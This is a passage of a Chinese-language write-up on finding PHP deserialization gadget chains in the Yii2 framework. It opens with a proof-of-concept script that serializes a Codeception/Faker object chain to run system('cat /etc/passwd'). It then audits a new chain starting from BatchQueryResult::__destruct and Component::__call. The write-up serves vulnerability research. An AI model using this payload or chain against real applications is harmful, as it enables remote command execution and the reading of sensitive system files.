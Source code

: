 ```
        function __construct($command,$argv)
        {
            $this-&gt;generator = new DefaultGenerator($argv);
            $this-&gt;validator = $command;
            $this-&gt;maxRetries = 99999999;
        }
    }
}

namespace Codeception\Extension{
    use Faker\ValidGenerator;
    class RunProcess{
        private $processes = [] ;
        function __construct($command,$argv)
        {
            $this-&gt;processes[] = new ValidGenerator($command,$argv);
        }
    }
}

namespace {
    use Codeception\Extension\RunProcess;
    $exp = new RunProcess('system','cat /etc/passwd');
    echo(base64_encode(serialize($exp)));
    exit();
}

```

在这里我们会发现一个问题，就是基本上都用到了Faker的这个namespace下的类，但是在yii2的核心框架不含任何拓展的情况下这个命名空间的相关文件是没有的。所以基本上网上的poc全部都失效了。这边就需要我们自己去挖掘一条yii2的反序列化链。去GitHub上下载了对应的yii2的版本，由于没发现标签是yii2.0.13-dev的这个版本，所以就下载了yii2.0.13的最新的一个版本。

##### 反序列化链的审计

老规矩，在没有后续操作下的反序列化的可利用的起始魔术方法基本上是__destruct，yii2也很简单明了，也就只有一个类含有__destruct

<br/> 在BatchQueryResult类中的__destruct作为反序列化的起点，这个也和网上大多数的链子的起点一样。往下走，可以看到__destruct中调用了reset，而reset函数中则出现了反序列化中很喜欢遇到的一个写法。

```
$this-&gt;_dataReader-&gt;close();

```

这个写法有两种利用的跳转方式，调用其它类的close方法或者调用其它未实现close方法的类的__call方法。这里我一开始的想法是跟进了__call方法，因为很多时候__call方法中都会采用call_user_func的形式进行调用，很有可能存在代码执行。但是这里也发现了问题，唯一一个调用了call_user**func，而不是没有其它任何操作的，直接抛出错误的是yii\base\Component的\**_call方法长这样。

```
    public function __call($name, $params)
    {
        $this-&gt;ensureBehaviors();
        foreach ($this-&gt;_behaviors as $object) {
            if ($object-&gt;hasMethod($name)) {
                return call_user_func_array([$object, $name], $params);
            }
        }
        throw new UnknownMethodException('Calling unknown method: ' . get_class($this) . "::$name()");
    }

```
